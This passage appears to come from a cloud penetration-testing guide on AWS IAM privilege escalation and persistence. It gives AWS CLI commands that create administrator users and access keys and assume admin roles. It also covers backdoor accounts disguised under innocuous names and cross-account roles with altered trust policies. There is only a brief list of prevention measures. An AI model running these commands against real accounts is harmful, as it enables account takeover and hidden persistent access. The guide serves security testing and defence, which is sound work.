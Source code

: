 #### Privilege Escalation Methods
- **Policy Attachment**: Attach policies to users/roles
- **Role Creation**: Create new roles with elevated permissions
- **Policy Versioning**: Modify existing policy versions
- **Cross-Account Access**: Gain access to other AWS accounts

#### Common Escalation Techniques
```bash
# Create administrative user
aws iam create-user --user-name admin-user
aws iam attach-user-policy --user-name admin-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# Create access keys for user
aws iam create-access-key --user-name admin-user

# Assume administrative role
aws sts assume-role --role-arn arn:aws:iam::123456789012:role/admin-role --role-session-name escalation

# Modify existing policy
aws iam put-user-policy --user-name existing-user --policy-name escalation --policy-document file://admin-policy.json
```

#### Escalation Prevention
- **Least Privilege**: Grant minimum required permissions
- **Permission Boundaries**: Use permission boundaries to limit escalation
- **Monitoring**: Monitor IAM changes and privilege usage
- **Regular Audits**: Periodic review of IAM permissions

## Persistence and Backdoors

### Creating Backdoor Accounts in AWS

#### Backdoor Account Types
- **Hidden Users**: Users with non-obvious names
- **Service Accounts**: Accounts disguised as legitimate services
- **Cross-Account Roles**: Roles assumable from external accounts
- **Temporary Backdoors**: Short-term access mechanisms

#### Backdoor Creation Techniques
```bash
# Create hidden user
aws iam create-user --user-name system-backup-user
aws iam attach-user-policy --user-name system-backup-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam create-access-key --user-name system-backup-user

# Create cross-account role
aws iam create-role --role-name backup-access-role --assume-role-policy-document file://trust-policy.json
aws iam attach-role-policy --role-name backup-access-role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# Add trusted entity to existing role
aws iam update-assume-role-policy --role-name existing-role --policy-document file://modified-trust-policy.json
```
